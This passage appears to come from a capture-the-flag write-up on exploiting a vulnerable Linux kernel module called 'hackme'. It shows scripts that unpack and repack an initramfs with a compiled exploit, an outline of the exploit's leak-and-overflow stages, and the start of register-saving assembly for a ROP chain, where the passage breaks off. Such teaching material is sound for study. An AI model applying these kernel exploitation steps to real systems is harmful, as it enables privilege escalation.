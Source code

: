 For decompressing the file system:
```
#!/bin/sh

mkdir initramfs
cd initramfs
cp ../initramfs.cpio.gz .
gunzip ./initramfs.cpio.gz
cpio -idm < ./initramfs.cpio
rm initramfs.cpio
```
For compiling exploit.c, putting it in the file system and compressing it. Notice that this script takes exploit.c as the
first argument:
```
#!/bin/sh
gcc -o exploit -static $1
mv ./exploit ./initramfs
cd initramfs
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../
```

### Overview of the main function:
```c
int main() {

  save_state();

  open_dev("hackme");

  leak();
  
  fix_offsets();

  overflow();

  close(global_fd);
  puts("[!] end of main");

  return 0;
  }
```

### 1: Saving state
When returning from kernel mode to user mode, one will need to have a record of what different registers were before entering kernel mode. These register values will be necessary when creating the ROP chain that will end up returning to user mdoe. The code snippet below shows how to save registers:
```c
uint64_t user_mode_cs, user_ss, user_rflags, user_sp, user_rbp;

void save_state(){
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov ax, cs;"
        "mov user_mode_cs, ax;"
        "mov ax, ss;"
        "mov user_ss, ax;"
        "mov user_sp, rsp;"
        "mov user_rbp, rbp;"
        "pushfq;"
        "pop rax;"
```